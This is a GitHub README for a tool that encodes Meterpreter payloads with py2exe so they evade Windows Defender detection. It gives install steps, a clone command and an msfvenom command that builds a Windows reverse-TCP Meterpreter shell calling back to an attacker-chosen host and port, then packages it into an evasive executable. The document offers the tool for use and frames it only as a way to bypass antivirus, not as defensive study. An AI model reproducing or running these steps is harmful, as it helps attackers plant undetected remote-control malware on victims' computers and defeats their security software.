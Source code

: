 ## AV bypass generator for py2exe

![https://n0a.pw/content/images/2020/12/meter_run.png](https://n0a.pw/content/images/2020/12/meter_run.png)

This tool was written to generate .py files for compilation into an .exe file using py2exe. 
Testing has shown that meterpreter coded in this way successfully bypasses static and dynamic analysis of windows defender.
For build the .exe file, you need a Windows machine with Python 2.7 installed and the py2exe module.
Based on [pymemimporter](https://github.com/n1nj4sec/pymemimporter) that allows you to import any .pyd from memory with only pure python code (no .pyd)!

**Instruction**
- Download [python 2.7](https://www.python.org/download/releases/2.7/ )
- Download [py2exe for python 2.7](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)
- Clone this repository: `git clone https://github.com/n0a/meterpreter-av-bypass`
- Make a payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.180 LPORT=4433 -f exe > shell.exe`
- Generate build files: `./gen.sh shell.exe`
- Copy files from shell direcory to C:\Python27 on Windows machine.
- Run `make.bat`
- Your encoded payload in dist/shell.exe

**Для русскоязычной аудитории:** [**https://n0a.pw/meterpreter-av-bypass**](https://n0a.pw/meterpreter-av-bypass)